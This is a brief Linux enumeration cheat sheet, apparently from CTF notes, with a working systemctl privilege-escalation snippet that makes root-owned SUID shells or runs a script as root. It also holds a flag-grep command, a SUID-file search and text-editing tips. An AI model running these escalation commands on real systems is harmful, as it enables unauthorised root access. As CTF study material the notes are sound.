 # Linux Enumeration Tips


## /bin/systemctl
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chown root:root /tmp/sh; chmod u+s /tmp/sh"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "python /tmp/shell.py"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

## Grep all file for string
```
grep -ilR "flag11" / 2>/dev/null
```

## Remove all newline space from file 
```
tr -d "\n\r" < yourfile.txt
```

## Remove specific character or space from Nano
```
ctrl + \
search the file _char
replace the file _char
choose option
```

## Find SUID Files
```
find / -perm -u=s -type f 2>/dev/null
```